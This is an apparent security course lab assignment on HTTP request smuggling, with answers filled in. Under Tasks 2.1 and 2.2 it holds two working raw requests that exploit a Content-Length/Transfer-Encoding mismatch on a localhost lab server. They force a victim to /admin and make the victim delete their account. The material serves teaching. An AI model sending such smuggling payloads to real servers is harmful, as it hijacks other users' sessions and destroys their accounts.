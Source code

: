 # Task 2
Now knowing how we define how much of an HTTP request is read, you will craft attacks using HTTP request smuggling. By constructing requests that different components interpret differently, an attacker can desynchronise the request stream. This makes it possible to inject hidden requests into the back-end connection, which leads to cache poisoning, credential hijacking, bypass of access controls, or direct compromise of other users’ sessions.

Request smuggling is primarily associated with HTTP/1 requests. However, a website supporting HTTP/2 may be vulnerable, depending on their back-end architecture.

![smugglingimg](/lab/images/request-smuggling.png)
###### Image from portswigger.net showing an overview of the attack

## Task 2.1 Redirect victim to another page
The idea is to use HTTP request smuggling to redirect a victim to another page, making the user perform an action without their consent. In this scenario, shortly after you send your attack; a victim will send a `GET` request for `/public` to the same server. Knowing that the server is vulnerable to HTTP request smuggling, craft a raw HTTP request from the attacker to the front-end that exploits a Transfer-Encoding / Content-Length parsing mismatch so the victim gets redirected to `/admin`.

Write the attack in `attack1.txt`.

The victims `GET` request will look something like this:
```http
GET /public HTTP/1.1
Host: localhost:8080
Authorization: Basic YWRtaW46YWRtaW4xMjM=


```

POST / HTTP/1.1
Host: localhost:8080
Content-Length: 1
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
x-foo: x

## Task 2.2 Delete the victim account
The goal is to make the user unknowingly delete their account by redirecting them to the /DeleteAccount page. Craft a raw HTTP request from the attacker to the front-end that exploits a Transfer-Encoding / Content-Length parsing mismatch so the victim deletes his account by redirecting him to the `/deleteAccount` page. Similar to `Task 2.1` the victim will send a `GET` request.

Write the attack in `attack2.txt`.

POST / HTTP/1.1
Host: localhost:8080
Content-Length: 10
Transfer-Encoding: chunked

0

POST /deleteAccount HTTP/1.1
x-foo: x